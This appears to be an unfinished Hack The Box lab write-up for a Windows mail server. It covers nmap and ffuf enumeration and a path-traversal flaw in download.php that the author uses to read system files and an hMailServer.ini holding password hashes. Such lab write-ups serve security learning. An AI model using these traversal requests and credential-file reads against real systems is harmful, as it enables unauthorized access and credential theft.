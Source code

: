 # Enumeration

Starting with the nmap... 

`nmap -sC -sV -Pn 10.10.11.14`

This finds:
```
PORT    STATE SERVICE       VERSION
25/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp open  pop3          hMailServer pop3d
|_pop3-capabilities: TOP USER UIDL
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp open  imap          hMailServer imapd
|_imap-capabilities: NAMESPACE RIGHTS=texkA0001 ACL SORT completed CAPABILITY IMAP4rev1 OK QUOTA IMAP4 CHILDREN IDLE
445/tcp open  microsoft-ds?
465/tcp open  ssl/smtp      hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
587/tcp open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: NAMESPACE RIGHTS=texkA0001 ACL SORT completed CAPABILITY IMAP4rev1 OK QUOTA IMAP4 CHILDREN IDLE
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-18T17:57:19
|_  start_date: N/A
|_clock-skew: -1s
```

There is an http server here that redirects to http://mailing.htb so lets add this to etc hosts first.

`echo '10.10.11.14 mailing.htb' | sudo tee -a /etc/hosts`

Lets check out the page.

Couple of things jump out at me on this page, it says it's a mailing server powered by hMailServer. Seems a likely avenue of weekness. 

I also see that there are three people listed, which might help with privesc later.

Finally there is a file to download that explains how to connect. 

Checking the vulns for hmailserver, it seems there are only ones for DOS which isn't neccessarily what I want. Plus all of them are old.

Perhaps the vuln here is not sanatizing the email.

I notice in the instructions that they tell me they are using user:password

It also reveals an account called maya@mailing.htb.

Doesn't seem to want me add that user account to my email.

So we probably need to find a way to create a user. Or steal someone elses info. That maya user is tempting... but I don't know how we could parse for her password.

Lets fuzz for other pages.

`ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://mailing.htb/FUZZ -ic`

Interesting there are two directories we have direct access to and it shows the contenst of the folders on the page.

Lets fuzz for an index page:
`ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://mailing.htb/indexFUZZ`

Seems to be a php web server. Lets fuzz for php pages.
`ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://mailing.htb/FUZZ -recursion -recursion-depth 1 -e .php -v -ic`


Interesting there is a download.php file and it lets me just define what file I want to download...

Can I use it to download /etc/passwd. Oh hmm this is a windows server.

Trying C:\Windows\System32\drivers\etc\hosts doesn't work... 

I can definitely use it to download other files.. using this works `..%2Fassets%2Fbackground_image.jpg`

Maybe I can download, download.php? 

Yup `GET /download.php?file=..%2fdownload.php`

``` php
<?php
if (isset($_GET['file'])) {
    $file = $_GET['file'];

    $file_path = 'C:/wwwroot/instructions/' . $file;
    if (file_exists($file_path)) {
        
        header('Content-Description: File Transfer');
        header('Content-Type: application/octet-stream');
        header('Content-Disposition: attachment; filename="'.basename($file_path).'"');
        header('Expires: 0');
        header('Cache-Control: must-revalidate');
        header('Pragma: public');
        header('Content-Length: ' . filesize($file_path));
        echo(file_get_contents($file_path));
        exit;
    } else {
        echo "File not found.";
    }
} else {
    echo "No file specified for download.";
}
?>
```

Be nice to see whats in wwwroot. I checked index.php but its pretty boring.

I don't see any way to do command injection with this

I suppose I could use a custom curl script to fuzz for files...

What if I try `../../Windows/System32/drivers/etc/hosts`

Hello. That works. So I can access mor ethan what is wwwroot. I'll bet if I wanted to I could just use this to get the user flag if I tried hard enough. But that isn't the point.

We know of 3 users. But don't really have a way of knowing file names in their directories. I could totally just brute force it and try and fuzz for common names but that seems clunky and not the point.

I found [this page](https://vk9-sec.com/windows-interesting-files/) with interesting files to pull.

I parsed those and put them in a file now I am going to fuzz for these.

Hmm /php/php.ini exists and it has this line...
```
;;;;;;;;;;;;;;;;;;;;
; php.ini Options  ;
;;;;;;;;;;;;;;;;;;;;
; Name for user-defined php.ini (.htaccess) files. Default is ".user.ini"
;user_ini.filename = ".user.ini"

; To disable this feature set this option to an empty value
;user_ini.filename =

; TTL for user-defined php.ini files (time-to-live) in seconds. Default is 300 seconds (5 minutes)
;user_ini.cache_ttl = 300
```

I also see this.
```
;;;;;;;;;;;;;;;;
; File Uploads ;
;;;;;;;;;;;;;;;;

; Whether to allow HTTP file uploads.
; https://php.net/file-uploads
file_uploads = On

; Temporary directory for HTTP uploaded files (will use system default if not
; specified).
; https://php.net/upload-tmp-dir
;upload_tmp_dir =

; Maximum allowed size for uploaded files.
; https://php.net/upload-max-filesize
upload_max_filesize = 2M

; Maximum number of files that can be uploaded via a single request
max_file_uploads = 20
```

Am I missing something here and there is an easy way to upload a reverse shell?

Okay with a TON of research I found [this page](https://benheater.com/hackthebox-mailing/) (which at the time of working on this does not have the answers, but will in the future). It mentions interesting INI files... and tells me that the instructions on the server are not accidental...

I took this as a hint that hey I should be paying attention to mail server. 

So I researched vulnerable files on hmailserver: https://www.exploit-db.com/exploits/7012

And then I found this file Program Files (x86)/hMailServer/Bin/hMailServer.ini

When I download it I get:
```
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

But I still have no idea how to leverage this...


